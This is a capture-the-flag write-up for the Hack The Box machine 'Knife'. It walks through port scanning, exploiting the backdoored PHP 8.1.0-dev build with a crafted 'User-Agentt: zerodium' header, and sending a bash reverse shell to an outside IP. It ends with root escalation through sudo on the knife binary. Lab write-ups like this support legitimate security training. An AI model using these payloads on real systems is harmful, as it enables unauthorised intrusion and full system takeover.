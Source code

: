 # [Knife](https://app.hackthebox.com/machines/knife)

```bash
nmap -sT -p- --min-rate 5000 10.10.10.242 -Pn
```
![Alt text](img/image.png)


After seeing, open ports (22,80), we do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.242 -Pn
```

![Alt text](img/image-1.png)


Let's analyze port 80 , what application structure is.

After analyzing requst&response cycle, we see that application's language is PHP and we can see via '**X-Powered-By**' header for its version.

![Alt text](img/image-2.png)


We see that 'PHP/8.1.0-dev' version is used, let's search publicly known exploits.


Hola, I find [RCE](https://www.exploit-db.com/exploits/49933)

So, we just modify 'User-Agent' request header via below one.

```bash
User-Agentt: zerodium system("id")
```

![Alt text](img/image-3.png)


Now, it's time to add reverse shell into here.

```bash
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.16.8/1337 0>&1'");
```


![Alt text](img/image-4.png)

We got reverse shell.

![Alt text](img/image-5.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-6.png)


user.txt

![Alt text](img/image-9.png)

Now, it's time for privesc, we just run `sudo -l` command.

![Alt text](img/image-7.png)


We see that our user can run `knife` binary via SUDO privileges.


I find a exploit for this [binary](https://gtfobins.github.io/gtfobins/knife/)



```bash
sudo knife exec -E 'exec "/bin/sh"'
```


root.txt

![Alt text](img/image-8.png)